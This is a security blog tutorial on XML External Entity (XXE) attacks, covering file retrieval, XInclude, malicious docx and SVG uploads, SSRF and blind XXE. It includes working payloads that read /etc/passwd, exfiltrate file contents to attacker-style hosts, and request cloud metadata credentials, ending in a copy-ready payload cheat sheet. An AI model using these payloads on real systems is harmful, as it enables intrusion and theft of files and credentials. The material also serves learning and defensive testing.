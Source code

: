 +++
title = "XXE"
description = ""
type = ["posts","post"]
tags = [
    "web",
    "infosec",
]
date = "2021-06-07"
categories = [
    "web",
    "infosec",
]
series = ["web"]
[ author ]
  name = "Quac Tran"
+++
* [What is XXE](#what-is-xxe)
* [Types of XXE attacks](#types-of-xxe-attacks)
    * [XXE To retrieve files](#xxe-to-retrieve-files)
        * [Example](#example)
        * [XXE through the XInclude tag](#xxe-through-the-xinclude-tag)
        * [Exploiting XXE using SVG Files or docx files or xlsx files](#exploiting-xxe-using-svg-files-or-docx-files-or-xlsx-files)
    * [XXE Into SSRF](#xxe-into-ssrf)
    * [Blind XXE](#blind-xxe)
* [Payloads](#payloads)
* [Note](#note)
* [References](#references)
## What is XXE
XXE = XML eXternal Entities

XXE can occur when XML documents get parsed. We traditionally think of XXE vulnerabilities as uploading an XML file that includes an external entity, an example of this would be:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```
We might be able to upload this file if we save it as .xml into an application that process XML files but what some people don't know is that some other file types consist of XML files. 
## Types of XXE attacks
XXE can be abused to perform several types of attacks. It can even be chained into things like SSRF.
* XXE to retrieve files
* XXE to perform SSRF
* Blind XXE
### XXE To retrieve files
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<product>&xxe;</product>
<adress>&xxe;</adress>
```
In this example we first define the document type and in there we define a new Entity called "XXE". This entity is made to execute a system call. This can be anything like ls, a reverse shell or in this case a file inclusion. It will grab the /etc/passwd file.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
Next we will display that entity xxe into every possible field of our XML file. It's very important to insert your XXE entity into every single XML element. Any of them can be vulnerable as the developer has to filter ALL the fields indivually.\
#### Example
Request
![retrieve_file_1.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_1.PNG)
![retrieve_file_2.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_2.PNG)
From here, we can modify the XML data to add in an XXE to request the file we wish to target.
![retrieve_file_3.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_3.PNG)
Response
![retrieve_file_4.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_4.PNG)
#### XXE through the XInclude tag
Often, an attacker does not have full control over the XML data, but has control over an input passed into the data. In these cases, they can’t inject an entity before the XML parameters, which makes it appear impossible to conduct XXE attacks. Often however, it is possible to do a XXE attack with just access to a single parameter, using the XInclude feature of XML.\
XInclude can be thought of as a way of including another XML document within an existing one. Using this feature, we can include a XML component that defines our external entity, and use that to leak data from the server. In this situation, the data sent from the client includes only the parameters required to add to the XML.
![xinclude1.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/xinclude1.PNG)
To setup the XInclude, we need to inject data into the product ID parameter. The payload will look like below.
![xinclude2.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/xinclude2.PNG)
Without all of the encoding, the payload is:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
#### Exploiting XXE using SVG Files or docx files or xlsx files
Gen docx file with python
![docx1.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/docx1.PNG)
A Docx file is mostly just zipped up xml files. We need to unzip the resume.docx file and modify the contents in “word/document.xml”. Then, save our changes back to resume.docx.
![docx2.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/docx2.PNG)
Two modifications are needed in document.xml.
```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
```
![docx4.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/docx4.PNG)
You can do the same with xlsx and svg
![svg.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/svg.PNG)
### XXE Into SSRF
A SSRF attack allows an attacker to perform server-side request forgery. This basically means that the attacker can make HTTP requests to any URL the server can access. This means that they can access URLs that they typically don’t have permission to access, which could potentially leak data.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM
"http://intranet.cheeseshop.com"> ]>
```
### Blind XXE
The majority of XXE vulnerabilities in the wild will be blind XXE attacks. To detect these we can use an out of band webserver that we host ourselves and make the target do a callback to our server using the same technique we used previously in XXE into SSRF.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com">
]>
```
If we detect blind XXE, we can exfiltrate data via OAST
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://webattacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Our first entity will grab the data file /etc/passwd and our second entity will make a callback to our server with the contents of the /etc/passwd file in a get parameter.
## Cheetsheat
```xml
 --------------------------------------------------------------------
using external entities:
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
--------------------------------------------------------------------
perform SSRF attacks:
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
--------------------------------------------------------------------
Blind XXE with out-of-band interaction:
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://burp-collab"> ]>
--------------------------------------------------------------------
Blind XXE with out-of-band interaction via XML parameter entities:
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://burp-collaborator> %xxe; ]>
--------------------------------------------------------------------
blind XXE to exfiltrate data using a malicious external DTD:
DTD file:
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; test SYSTEM 'http://burp-collaborator/?a=%file;'>">
%eval;
%test;
XXE Payload:
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
-------------------------------------------------------------------
blind XXE to retrieve data via error messages:
DTD file:
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % notvalid "<!ENTITY &#x25; test SYSTEM 'file:///invalid/%file;'>">
%notvalid;
%test;
XXE Payload:
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
-------------------------------------------------------------------
XInclude to retrieve files:
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
-------------------------------------------------------------------
XXE via image file upload:
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
--------------------------------------------------------------------
XXE inside SOAP body:
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
-------------------------------------------------------------------
XXE: Base64 Encoded:
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
-------------------------------------------------------------------
XXE inside SVG:
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
--------------------------------------------------------------------
```
## Note
Alway check file upload can inject xml
* profile pictures (.svg)
* banners (.svg)
* photo albums (.svg)
* XML imports (.xml)
* DOCX/XLSX imports (.docx/.xlsx)
* SOAP requests
* ...

## References

-[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)\
-[https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)


